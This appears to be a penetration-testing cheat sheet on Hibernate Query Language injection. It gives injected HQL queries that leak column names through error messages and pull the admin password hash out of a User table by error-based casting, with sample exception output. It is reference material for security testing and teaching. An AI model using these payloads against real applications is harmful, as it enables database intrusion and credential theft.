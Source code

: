 ```yaml
---
title: HQL Injection
categories: [Database, HQL]
tags: [Injection, Database, HQL]
---
```


# Hibernate Query Language Injection 

> Hibernate ORM (Hibernate in short) is an object-relational mapping tool for the Java programming language. It provides a framework for mapping an object-oriented domain model to a relational database. - Wikipedia
## Summary

* [HQL Comments](#hql-comments)
* [HQL List Columns](#hql-list-columns)
* [HQL Error Based](#hql-error-based)
* [References](#references)

## HQL Comments

```sql
HQL does not support comments
```

## HQL List Columns

```sql
from BlogPosts
where title like '%'
  and DOESNT_EXIST=1 and ''='%' -- 
  and published = true
```

Using an unexisting column will an exception leaking several columns names.

```sql
org.hibernate.exception.SQLGrammarException: Column "DOESNT_EXIST" not found; SQL statement:
      select blogposts0_.id as id21_, blogposts0_.author as author21_, blogposts0_.promoCode as promo3_21_, blogposts0_.title as title21_, blogposts0_.published as published21_ from BlogPosts blogposts0_ where blogposts0_.title like '%' or DOESNT_EXIST='%' and blogposts0_.published=1 [42122-159]
```

## HQL Error Based

```sql
from BlogPosts
where title like '%11'
  and (select password from User where username='admin')=1
  or ''='%'
  and published = true
```

Error based on value casting.

```sql
Data conversion error converting "d41d8cd98f00b204e9800998ecf8427e"; SQL statement:
select blogposts0_.id as id18_, blogposts0_.author as author18_, blogposts0_.promotionCode as promotio3_18_, blogposts0_.title as title18_, blogposts0_.visible as visible18_ from BlogPosts blogposts0_ where blogposts0_.title like '%11' and (select user1_.password from User user1_ where user1_.username = 'admin')=1 or ''='%' and blogposts0_.published=1
```

:warning: **HQL does not support UNION queries**

## References

* [HQL for pentesters - February 12, 2014 - Philippe Arteau](https://blog.h3xstream.com/2014/02/hql-for-pentesters.html)
* [How to put a comment into HQL (Hibernate Query Language)? - Thomas Bratt](https://stackoverflow.com/questions/3196975/how-to-put-a-comment-into-hql-hibernate-query-language)
* [HQL : Hyperinsane Query Language - 04/06/2015 - Renaud Dubourguais](https://www.synacktiv.com/ressources/hql2sql_sstic_2015_en.pdf)
* [ORM2Pwn: Exploiting injections in Hibernate ORM - Nov 26, 2015 - Mikhail Egorov](https://www.slideshare.net/0ang3el/orm2pwn-exploiting-injections-in-hibernate-orm)
* [HQL Injection Exploitation in MySQL - July 18, 2019 - Olga Barinova](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hql-injection-exploitation-in-mysql/)
